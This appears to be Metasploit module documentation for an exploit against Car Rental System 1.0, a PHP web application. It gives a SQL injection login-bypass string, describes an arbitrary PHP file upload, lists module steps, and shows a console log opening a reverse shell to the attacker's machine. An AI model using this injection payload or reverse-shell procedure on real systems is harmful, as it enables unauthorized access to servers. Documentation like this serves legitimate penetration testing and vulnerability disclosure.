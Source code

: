 ## Vulnerable Application

Car Rental System 1.0 is a Web Application to rent cars. It was write using PHP and MySQL.

Vendor Homepage: https://www.sourcecodester.com/php/14544/car-rental-management-system-using-phpmysqli-source-code.html
Software Link: https://www.sourcecodester.com/download-code?nid=14544&title=Car+Rental+Management+System+using+PHP%2FMySQLi+with+Source+Code

to install, extract all files in a web directory, edit admin/db_connect.php, and create database following database/car_rental_db.sql

Opening the web page, we can login in /admin area using " ' OR 1=1 limit 1# " as username, and a random word as password; Giving "limit 1" we will select the first user: ADMIN

This software is also vulnerable for Arbitrary File Upload.

Vulnerable page: http://IP/Car_CMSHOME/admin/index.php?page=manage_car. Editing a Car record, you may upload a php file.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/car_rental_system`
3. Set the `RHOST`.
4. Set the `TARGETURI`.
7. Set `LHOST` and `LPORT`
8. Run the exploit: `run`
9. Confirm you have now a reverse shell

**TARGETURI**
The path to the Car Rental System HOME directory.


## Scenarios

### Debian 10 running Apache2 and php7.3

```
msf6 exploit(multi/php/car_rental_system) > use exploit/multi/php/car_rental_system
[*] Using configured payload php/reverse_php
msf6 exploit(multi/php/car_rental_system) > set RHOSTS 192.168.0.130
RHOSTS => 192.168.0.130
msf6 exploit(multi/php/car_rental_system) > set TARGETURI /car_rental/
TARGETURI => /car_rental/
msf6 exploit(multi/php/car_rental_system) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/php/car_rental_system) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.114:4444 
[*] Attempting Login
msf6 exploit(multi/php/car_rental_system) > [*] Cookie: PHPSESSID=uokk0ufj0ujbphrte03upmsej7;
[*] Creating new car
[*] Last Images inserted id=6
[*] index.php?page=manage_car&id=6
[*] assets/uploads/cars_img/1605195300_sh_ell.php
[*] Command shell session 1 opened (192.168.0.114:4444 -> 192.168.0.130:56876) at 2020-11-12 16:34:58 +0100
msf6 exploit(multi/php/car_rental_system) > 
msf6 exploit(multi/php/car_rental_system) > sessions 

Active sessions
===============

  Id  Name  Type           Information  Connection
  --  ----  ----           -----------  ----------
  1         shell php/php               192.168.0.114:4444 -> 192.168.0.130:56876 (192.168.0.130)

msf6 exploit(multi/php/car_rental_system) > sessions 1
[*] Starting interaction with 1...

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

uname -a
Linux 6784e50e1781 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64 GNU/Linux


```

